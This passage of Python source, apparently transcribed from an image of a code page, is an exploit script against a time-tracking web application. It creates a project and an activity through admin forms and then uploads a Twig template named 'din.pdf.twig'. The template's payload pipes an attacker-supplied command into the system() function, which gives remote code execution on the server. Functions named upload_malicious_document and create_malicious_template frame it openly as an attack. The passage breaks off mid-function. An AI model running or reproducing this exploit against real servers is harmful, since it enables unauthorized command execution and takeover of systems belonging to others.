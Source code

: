             'project_edit_form[orderDate]': (None, ''),
            'project_edit_form[start]': (None, ''),
            'project_edit_form[end]': (None, ''),
            'project_edit_form[budget]': (None, '0.00'),
            'project_edit_form[timeBudget]': (None, '0:00'),
            'project_edit_form[budgetType]': (None, ''),
            'project_edit_form[visible]': (None, '1'),
            'project_edit_form[billable]': (None, '1'),
            'project_edit_form[globalActivities]': (None, '1'),
            'project_edit_form[invoiceText]': (None, ''),
            'project_edit_form[_token]': (None, token)
        }
        
        response = session.post(f"{BASE_URL}/admin/project/create", files=form_data)
        
    except Exception as e:
        print(str(e))


def create_activity(token, name,project_id ,session):
    try:
        form_data = {
            'activity_edit_form[name]': (None, name),
            'activity_edit_form[color]': (None, ''),
            'activity_edit_form[comment]': (None, ''),
            'activity_edit_form[project]': (None, ''),
            'activity_edit_form[budget]': (None, '0.00'),
            'activity_edit_form[timeBudget]': (None, '0:00'),
            'activity_edit_form[budgetType]': (None, ''),
            'activity_edit_form[visible]': (None, '1'),
            'activity_edit_form[billable]': (None, '1'),
            'activity_edit_form[invoiceText]': (None, ''),
            'activity_edit_form[_token]': (None, token),
        }
        
        response = session.post(f"{BASE_URL}/admin/activity/create", files=form_data)
        
        if response.status_code == 201:
            print(f"[+] Activity created: {name}")

    except Exception as e:
        print(f"An error occurred: {str(e)}")

def upload_malicious_document(token,session):
    try:
        form_data = {
            'invoice_document_upload_form[document]': ('din.pdf.twig', f"<html><body>{{{{['{sys.argv[4]}']|map('system')|join}}}}</body></html>", 'text/x-twig'),
            'invoice_document_upload_form[_token]': (None, token)
        }
        
        response = session.post(f"{BASE_URL}/invoice/document_upload", files=form_data)
        
        if ".pdf.twig" in response.text:
            print("[+] Twig uploaded successfully!")
        else:
            print("[-] Error while uploading, exiting..")
            exit(1)

    except Exception as e:
        print(f"An error occurred: {str(e)}")
import re

def create_malicious_template(token, name, session):
    try:
        data = {
            'invoice_template_form[name]': name,
            'invoice_template_form[title]': name,
            'invoice_template_form[company]': name,